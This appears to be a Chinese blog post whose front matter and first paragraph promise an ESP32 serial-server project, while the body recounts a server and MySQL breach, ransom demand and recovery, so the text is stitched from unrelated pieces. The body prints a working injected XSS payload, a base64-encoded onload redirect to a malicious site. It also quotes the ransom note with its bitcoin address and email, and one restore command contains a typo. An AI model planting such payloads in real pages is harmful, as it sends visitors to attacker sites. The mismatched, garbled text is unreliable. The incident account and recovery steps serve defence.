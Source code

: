 ```yaml
---
layout: post
title: 嵌入式｜基于ESP32实现的串口服务器
categories: [Embedded]
description: 基于ESP32实现的串口服务器，启动于APSTA模式，同时包括一个设置页面，可以对ESP32相关参数进行设置。
keywords: Embedded, WiFi, WebServer
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


手上有一块ESP32板子，这段时间以来组装设备为了更便携一些，上位机与设备、设备与设备间通讯均用到了串口服务器，但是成品串口服务器总有接口限制，传输上线限制等问题，同时也没法做到需要的多口模数转换等功能因此自己摸索了一下，模数转换功能还没做。使用了arduino环境，ESP_dev_module库。

## 0x00 发现端倪

有一天，我在自测功能的时候，发现 APP 里展示的每条详情信息里都有一段乱码，只是有点奇怪，没有特别在意，后来调试网页的时候看到控制台有个报错，就顺手看了一眼，发现详情网页里有这样的东西：

![body-onload](/images/posts/database/body-onload.png)

找我的前端小伙伴讨论了下，最后本地调试了一番，发现是数据库里有个字段齐刷刷地被改成这个了：

```
<body/onload=eval(atob("d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vaHpyMGRtMjhtMTdjLmNvbS9lYm1zczBqcTc/a2V5PWM5MGEzMzYzMDEzYzVmY2FhZjhiZjVhOWE0ZTQwODZhIik="))>
```

atob 里面这一串是被 Base64 编码的 `window.location.replace("https://xxx.com/xxx")`，所以这段代码如果在网页里被正常加载，网页会被自动重定向到一个邪恶的网址：

![fake-security-tips](/images/posts/database/fake-security-tips.png)

是不是挺可怕？浏览网页的人如果警惕性不高，可能就中招了。这时我明白过来，我的测试环境这是被当成肉鸡了……

不过当时还是大意了，因为暂时没有想通它是怎样攻击和篡改，以为就是从页面注入的，就在逻辑里加了一些防护逻辑，把这个字段值都改回去然后就继续干活了。

## 0x01 库没人懵

到第二天，正欢乐地测着功能呢，突然打开啥页面都报数据库异常了，到库里一看，好家伙，所有表都没了，只剩一张 readme，里面写着：

> 以下数据库已被删除：xxx。 我们有完整的备份。 要恢复它，您必须向我们的比特币地址bc1q8erv6l4xrdqsfpwp92gm0mccur49pqn8l8epfg支付0.016比特币（BTC）。 如果您需要证明，请通过以下电子邮件与我们联系。 song4372@proton.me 。 任何与付款无关的邮件都将被忽略！

事情没我想象的简单！能把库里的表都删了，数据库和服务器的权限怕是都被拿到了。

仔细回想了前一段时间里发生的事情，推测过程可能是这样的：

- 最开始，有一天接收到阿里云的告警，提示 AK 泄漏，查看事件日志发现利用 AK 创建了一个 RAM 子账号，并赋予了高权限，当时我禁用了涉及的 AK，删除了被创建的子账号，但服务器应该已经被渗透了；
- 然后就是数据库字段被篡改，估计是一方面把服务器资源作为肉鸡继续扩散攻击其它人，另一方面作为诱饵，监控处理动作；
- 最后就是删库勒索了。

## 0x02 夺回权限

当务之急，是夺回权限，恢复数据。整个服务器和数据库的权限应该都不安全了，所以我先采取了以下措施：

- 检查服务器安全组规则，发现被加入了允许公网访问 3306 和所有端口的记录，将其删除；
- 检查服务器上的用户，发现多了一个用户 `guest`，uid 0，将其禁用；
- 检查进程，发现有用 `guest` 用户启动的 bash 进程和 mysql root 用户进程，将其 kill 掉；
- 修改服务器所有用户密码，检查用户权限；
- 修改数据库端口、重置所有用户和密码，只赋予用户必要权限；
- 更新服务器，修复已知安全漏洞；

用到的主要指令：

```sh
# 检查 Linux 服务器上的用户
cat /etc/passwd

# 修改用户密码
passwd <username>

# 检查进程
ps -ef 

# 杀掉进程
kill -9 <pid>

# 修改数据库端口
vim /etc/my.cnf

# mysql 删除用户，在 mysql 命令行执行
drop user '<user_name>'@'<scope>';
# mysql 创建用户，赋予权限，在 mysql 命令行执行
create user '<user_name>'@'<scope>' IDENTIFIED BY '<password>';
grant select,insert,update,delete on '<database_name>'.* to '<user_name>'@'<scope>';
```

## 0x03 修复数据

接下来就是修复数据了。

这个测试用的 MySQL 实例开启了 binlog，可惜被攻击者清除了，所以只能从备份恢复了。数据用定时任务 + mysqldump，每天备份一次，找到合适的备份，恢复数据。

*ps: 幸亏有备份，不然真是欲哭无泪了。*

```sh
# 解压备份文件
gunzip -c xxx.sql.gz > xxx.sql

# 恢复数据，在 mysql 命令行执行
use <database_name>;
souce /path/to/xxx.sql;
```

## 0x04 小结

以上的步骤的操作过程，远没有看起来那么简单，实际耗费了我挺长时间。

这次事件让我深刻地意识到，安全问题不容忽视，不管是服务器还是数据库，都要做好安全措施，不要给攻击者可乘之机。不然真到了被攻击，而又自行恢复无望的时候，那就叫天天不应，叫地地不灵了。退一万步说，即使有备份，也会耗费大量的时间和精力，影响正常的工作和生活。

安全任重道远，后续先做好以下方面：

- 访问控制，只赋予必要权限；
- 服务器镜像、数据库定期备份；
- 定期漏洞扫描与修复；
- 敏感数据加密；
- 操作审计；

最后，**警钟常鸣！**
